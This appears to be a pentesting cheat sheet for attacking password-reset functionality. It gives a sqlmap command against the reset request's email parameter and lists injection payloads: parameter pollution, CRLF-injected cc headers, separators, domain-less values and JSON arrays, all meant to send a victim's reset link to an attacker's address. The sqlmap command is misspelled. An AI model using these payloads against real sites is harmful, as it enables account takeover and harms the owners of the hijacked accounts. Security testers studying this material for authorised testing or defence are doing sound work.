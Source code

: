 #### Try sqlmap in the email parameter as backend involvement may occur 
````
sqlpmap -r pass_reset.txt -p email
````


#### Double parameter (aka. HPP / HTTP parameter pollution):
- email=victim@xyz.tld&email=hacker@xyz.tld
#### Carbon copy:
- email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
#### Using separators:
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
#### No domain:
- email=victim
- email=victim@xyz
#### JSON table:
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}
